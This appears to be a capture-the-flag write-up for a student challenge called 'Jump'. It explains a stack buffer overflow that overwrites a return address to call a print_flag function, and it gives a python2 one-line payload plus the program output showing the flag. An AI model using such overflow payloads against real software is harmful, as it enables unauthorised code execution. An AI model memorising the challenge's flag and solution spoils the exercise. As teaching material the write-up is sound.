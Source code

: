 ## Name: 
Jump

## DESC:
Can you jump to the location that gives you the flag?

create a `flag.txt` locally to test

## Solution:
This required the students to build the binary locally using the provided makefile and source code. Once we get the binary, open in gdb and find the address of the `print_flag` function. This can be done using `info functions` OR `disass print_flag`. This shows the address where the function starts. -> `0x000000000040121b`. 

Now we know the buffer is 32 , next 8 is base pointer, next 8 is return address. So put the `0x000000000040121b` in the return address slot to jump there. Sample solve - 

```
python2 -c "print('A'*40+'\x1b\x12\x40\x00\x00\x00')" | ./challenge
Hey, what's your name?
Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
casual{jump_2_functi0ns_r3turn_to_w1n}Segmentation fault (core dumped)
```
